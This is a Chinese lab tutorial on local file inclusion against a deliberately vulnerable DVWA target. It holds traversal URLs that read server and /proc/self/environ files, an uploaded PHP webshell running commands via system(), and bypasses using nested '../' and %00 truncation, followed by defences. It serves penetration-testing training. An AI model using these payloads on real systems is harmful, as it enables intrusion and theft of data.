







# 本地文件包含

## 1. 课程说明

本课程为动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述 Web 应用攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定 Linux 系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们初步接触 Kali Linux 和渗透测试的概念。需要依次完成下面几项任务：

- 本地包含简介
- 本地包含尝试
- 本地包含进阶
- 本地包含防范

## 4. 推荐阅读

本节实验推荐阅读下述内容：

1. [File inclusion vulnerability 介绍](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)

## 5. 文件包含简介

### 5.1 文件包含漏洞简介

文件包含漏洞又称为 File Inclusion，文件包含漏洞是一种非常常见的漏洞，这样的漏洞常常影响于依赖于脚本运行的类型的网站。当应用程序使用攻击者控制的变量建立可执行代码的路径时，这个问题就产生了，攻击者可以控制在运行时执行他想要执行的文件。

与常见的目录遍历攻击（Directory Traversal Attack）不同，目录遍历攻击是可以访问没有被授权的文件，只是信息的泄漏，但是文件包含漏洞可以影响到你将要将在被执行的文件，这个可以影响整个网站的运行状态。

文件包含通常分为两类：

- Local File Inclusion（LFI）：本地文件包含，只是包含服务器本地上的文件；
- Remote File Inclusion（RFI）：远程文件包含，这是包含了远在其他服务器上的文件。

这样的问题一般发生在将某个功能独立出来，在使用时需要包含给文件亦或者是引用外部的一个功能，通过出现在 PHP 与 JSP 这样的编程语言中，SSI 也存在这样的问题，但其较为小众。

### 5.2 环境启动

本次实验将先来了解 LFI 的工作，通过 LFI 我们能够获取到的信息。我们将依然使用 DVWA 的环境来实验。

与之前的实验相同，我们首先启动靶机、打开 dvwa，然后将实验的安全等级降到最低：

在实验桌面中，双击 Xfce 终端，打开终端：


使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：



等待大约四分钟，待得虚拟机完全启动之后我们打开桌面上的 Firefox：



访问我们的靶机系统所使用的 IP 地址`192.168.122.102`：



正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：


为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：


然后调整安全的 level 到 low：



当看到页面的下方 Level 的显示变化后，说明修改成功了：



## 6. 文件包含初试

本实验平台是 PHP/MySQL 的架构，可以通过 PHP 的特性函数直接使用 URL 去动态的包含文件，若是没有审查来源文件，就会导致攻击者有机可趁，因为任意的文件与命令都可以被读取与执行。

>**注意**在 PHP 5.2.0 之后使用的 `allow_url_include` 配置选项，在 4.3.4 之前的版本都使用的 `allow_url_fopen` 配置参数，并且在 PHP 5.x 的版本中默认直接禁用 `allow_url_include` 参数，而在之前的版本都默认开启该配置选项）

在 PHP 中的特性函数有：

- include()：包含文件，并正确执行，若是找不到包含的文件，路径有问题时，会警告，但不会停止运行；
- include_once()：包含文件，并正确执行，与 include() 相同，但是不会重复包含
- require()：包含文件，并正确执行，若是找不到包含的文件，路径出错时直接停止运行；
- require_once()：与 require() 类似，但不会重复包含文件。

包含的文件只要内容符合 PHP 的语法规则就会被执行然后显示在页面上，但是若是不符合 PHP 语法规则便直接将其中的内容显示在页面上。

我们进入到 DVWA为我们所提供的环境中，我们可以看到：


页面上提示我们修改 GET 参数值就可以包含文件，此时我们并不知道上面有哪些文件，该平台是 Linux 亦或者是 Windows，我们可以随便拟一个参数让其访问，他会曝出这样的错误：


从曝出的错误来看，我们可以获得两条消息：

- 运行的平台是在 Linux 中，不是在 Windows 中，因为 Windows 中没有 /var/www/ 的目录结构
- 运行的根目录在 /var/www/dvwa 中

在 PHP 中会在网站的根目录中放置一个 robots.txt 的文件，改文件用于限制或者告诉告诉搜索引擎，网站中哪些目录、内容的访问权限。

我们在 URL 中输入这样的地址：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=../../robots.txt
```

回车访问后我们会发现我们得到这样的结果：


并且我们上文使用的是相对路径，我们还可以使用绝对路径来访问：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
```

我们会得到同样的结果。

我们还可以通过这样的方式访问到网站根目录中的 php 配置文件：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/php.ini
```


我们还可以访问 php 的 info 文件，查看本设备中 php 的详细配置：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/phpinfo.php
```


从该页面我们便可获取到非常多的信息了，从 php 的内核版本到 API 接口配置文件所在等等，往下翻可以看到所有的配置参数的值，这样可以免去很多因为配置参数没有打开或者某个漏洞在高版本中修复而无法攻击的尝试工作，大大的增大了我们的效率。

就如我们之前所谈到的 `allow_url_include` 与 `allow_url_fopen` 两个参数，我们可以看到此时两个参数是否打开：


如果说这些都不是太大的问题，那么若是包含这个文件，问题就大了：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/proc/self/environ
```

从这个文件中我们可以获取到用户的 session 信息，还有 user-agent，通过这些信息我们就可以做很多文章了：


我们查看源代码：


我们可以看到造成这样的问题是因为它没有做任何的防范与过滤，使得攻击者有机可乘，访问设备上所有的文件，透露出很多的内容。

## 7. 文件包含进阶

若是你认为本地文件包含只有这样的能耐就错了，攻击手段往往都是通过多种小技巧，利用程序员的粗心来实现。同样本地文件的包含若是只是常看文件的话，价值还是不够大，不能让它曾经盛极一时。

试想我们若是配置着文件上传的功能，我们能做什么呢？

我们可以使用可以上传一个后门程序，然后让其包含进我们的当前页面，使其运行起来。这样我们不仅能够查看还能执行一些命令。

我们在本地准备这样的一个 php 文件（注意实在本地，也就是 shiyanlou 用户的终端里，而不是在虚拟机中，我们需要上传的）：

在终端中执行 `vim test.php` 来创建与编辑文件：



然后输入这样的内容：

```
<?php

system($_POST['cmd']);

echo '<form method="post" action="../../hackable/uploads/test.php"><input type="text" name="cmd"/><input type="submit"/></form>';

?>
```

第一句话是为了使用 cmd 来执行命令，第二句是为了提供一个输入框来输入一些命令，这样不用每次都去修改 URL，非常的麻烦（第二句中的地址如何而来，可以看下文便知）。

接着使用 `:wq` 来将其保存。

然后我们再次登陆 dvwa 中，然后进入 Upload 的上传环境：


选择浏览，上传我们直接编辑的 test.php 文件，然后上传，上传成功之后会有这样的提示：



我们可以看到上传成功的提示中告诉了我们文件所在的路径，这样的提示是不明智，但是同时也让我们文件的包含也更加的容易了。

此时我们再次来到 File Inclusion 的环境中，这次我们将 GET 中 page 的参数值修改成刚刚上传文件所在的路径：


我们会看到我们提交的 php 脚本被成功的运行了。

我们可在输入框中输入简单的 shell 命令试试：

例如 `pwd`


如此一来，本地包含的危险是不是很大了呢？此处只是一个伪 webshell，所以只能执行一些简单不需要交互的命令，因为这样的展示没有办法交互。

## 8. 文件包含防范

同样的方法，我们将 Security 的 level 调整到 medium：


然后我们返回去查看源代码，我们会发现多了这两句：

```
    $file = str_replace("http://", "", $file);
    $file = str_replace("https://", "", $file); 
```

这两句是用于防范远程文件包含的，而作用就是将获取到的变量中的 `http://` 与 `https://` 这样的字眼都替换掉，而对于本地文件包含的防范会有这样的一些措施，本平台的版本相对老一点，没有涉及到：

1.相对地址的方法，这样的方法措施用处不大。

```
$file=str_replace('../','',$_GET['file']);
```

这样就会将变量中 `../` 的字符都替换成空，例如我们上述例子中的 `../../robots.txt` 相对地址就会被替换成 `robots.txt` 从而导致我们访问不了，但是这样的话用绝对地址就完全可以规避掉这样的问题了。

若还是想用相对地址还可以使用这样嵌套的方法来规避掉：

```
..././..././robots.txt
```

我们会发现在把 `../` 替换掉之后，我们的路径还是正确的。

2.还有一种防范的措施就是在获到的变量名后面添加后缀：

```
 include("$file"."php");
```

亦或者是判断 GET 后缀必须是 `.php` 的过滤条件。

这样的过滤条件，在 php 版本小于 5.3.4 时，并且 Magic_quote_gpc 选项为 off 的情况下，我们可以使用 `%00` 来进行截断，从而绕过这样的过滤。

`%00` 的作用可以使得其后面的内容不会被识别。比如说：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt%00test.php
```

其后缀有 `.php` 亦或者是再在后面添加 `.php` 的后缀，最后生效的还是：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
```

也就是说 `%00` 后面的内容就会被忽略掉。

这样看来似乎很难解决本地包含的漏洞呀？

其实最简单的方法就是将其写死，成一个绝对路径的某个文件，这样就肯定不会有这样的漏洞出现。

还有一种方法，我们可以参考一下 high level 的代码：

```
    if ( $file != "include.php" ) {
        echo "ERROR: File not found!";
        exit;
    } 
```

这里将其写为只能是 include.php 这个变量值，当然也可以用 switch 的方式，多几个匹配的值。其实这样的与写死差别不大了。

这就是本地文件包含的几种方式。

## 9. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- 本地包含简介
- 本地包含尝试
- 本地包含进阶
- 本地包含防范

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 10. 作业

1. 在本地环境中使用 PHP 的环境尝试两种防范的措施。